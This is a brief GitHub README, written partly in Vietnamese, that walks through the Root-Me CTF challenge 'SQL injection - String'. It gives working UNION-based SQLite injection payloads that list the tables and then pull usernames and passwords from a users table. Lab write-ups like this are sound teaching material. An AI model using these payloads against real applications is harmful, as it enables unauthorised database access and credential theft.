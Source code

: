 # SQL injection - String

[![Hits](https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https%3A%2F%2Fgithub.com%2FTienNHM%2Froot-me-ctf%2Ftree%2Fmaster%2FWeb-server%2FSQL%2520Injection%2FSQL%2520injection%2520-%2520String&count_bg=%2379C83D&title_bg=%232D8FFF&icon=markdown.svg&icon_color=%23092753&title=Visitors&edge_flat=false)](https://hits.seeyoufarm.com)

`Link: http://challenge01.root-me.org/web-serveur/ch19/`

## Request:

- Retrieve the administrator password

## Solution:

### Step 1:

- `Vào phần search thử với payload: 'sss'`
  -> Ta thấy xuất hiện lỗi với SQLite

### Step 2: Xem tên các table:

- Gõ từ khoá vào thanh search: ' union select 1,tbl_name from sqlite_master --

-> Ta thu được kết quả tên các table

### Step 3: Trích xuất password:

- Gõ từ khoá vào thanh search: ' union select username,password from users --

-> Key sẽ là password của admin
